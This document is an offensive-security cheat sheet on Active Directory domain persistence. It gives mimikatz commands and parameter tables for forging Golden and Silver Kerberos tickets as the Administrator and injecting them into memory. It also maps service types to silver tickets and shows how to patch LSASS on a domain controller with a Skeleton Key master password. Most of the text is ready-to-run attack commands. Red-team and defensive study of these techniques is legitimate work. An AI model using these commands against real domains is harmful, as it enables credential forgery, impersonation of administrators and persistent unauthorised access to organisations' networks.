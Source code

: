 # Domain Persistence

## Golden Ticket

a valid ticket forged from the Domain Controller KRBTGT hash. Allows an attacker to impersonate any user on any machine even from an host external to the domain.

```
kerberos::golden /domain:<domain> /sid:<sid> /aes256:<aes> /user:<user> /groups:<groups> /ptt
```

Create Golden Ticket as Administrator user and store it in memory

```
kerberos::golden /User:Administrator /domain:<domain> /sid:<SID> /krbtgt:<ticket> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
```

| Parameter                              | Description                                                                                   |
| -------------------------------------- | --------------------------------------------------------------------------------------------- |
| /user                                  | Username                                                                                      |
| /domain                                | FQDN                                                                                          |
| /sid                                   | Domain SID                                                                                    |
| /krbtgt OR /aes128 OR /aes256 OR /ntlm | key to use to generate the ticket                                                             |
| /id                                    | User ID, use 500 for Administrator                                                            |
| /groups                                |  Associated groups, accepts multiple separated by a comma. Default is 512,513,520             |
| /startoffset                           |  0 means available from now, positive numbers add a delay in minutes to the ticket activation |
| /endin                                 | Optional ticket lifetime in minutes. Default is 600 (10 hours)                                |
| /renewmax                              | Optional ticket lifetime in minutes. Default is 10080 (7 days)                                |
| /ptt OR /ticket                        | Load the ticket in memory or store it as a file for later use                                 |

## Silver Ticket

Create a valid TGT ticket from a known NTLM service hash. Allows to gain access to the service machine.

```
kerberos::golden /user:<user> /domain:<domain> /sid:<SID> /rc4:<hash> /id:<id> /groups:<groups> /service:<srv> /target:<host>
```

| Parameter       | Description                                                                                   |
| --------------- | --------------------------------------------------------------------------------------------- |
| /user           | Username                                                                                      |
| /domain         | FQDN                                                                                          |
| /sid            | Domain SID                                                                                    |
| /rc4            | NTLM key                                                                                      |
| /id             | User ID, use 500 for Administrator                                                            |
| /groups         |  Associated groups, accepts multiple separated by a comma. Default is 512,513,520             |
| /startoffset    |  0 means available from now, positive numbers add a delay in minutes to the ticket activation |
| /endin          | Optional ticket lifetime in minutes. Default is 600 (10 hours)                                |
| /renewmax       | Optional ticket lifetime in minutes. Default is 10080 (7 days)                                |
| /service        | Type of service to attack. See table below for reference.                                     |
| /target         | The target host                                                                               |
| /ptt OR /ticket | Load the ticket in memory or store it as a file for later use                                 |

### List of tickets required by service

In case of multiple tickets, the attacker has to create a new silver ticket for the same target host for each specified service type

| Service                             | Silver Tickets service types required          |
| ----------------------------------- | ---------------------------------------------- |
| WMI                                 | HOST, RPCSS                                    |
| PowerShell Remoting                 | HOST, HTTP, WSMAN or RPCSS depending on the OS |
| WinRM                               | HOST, HTTP                                     |
| Task Scheduler                      | HOST                                           |
| LDAP                                | LDAP                                           |
| Windows File Share                  | CIFS                                           |
| Windows Remote Administration Tools | RPCSS, LDAP, CIFS                              |

## Skeleton Key

Patches the LSASS Domain Controller process to allow access for a determined user with an arbitrary password specified by the attacker. After the attack both the new password and the original one are considered valid. The default injected password is mimikatz.

```
misc::skeleton
```

###
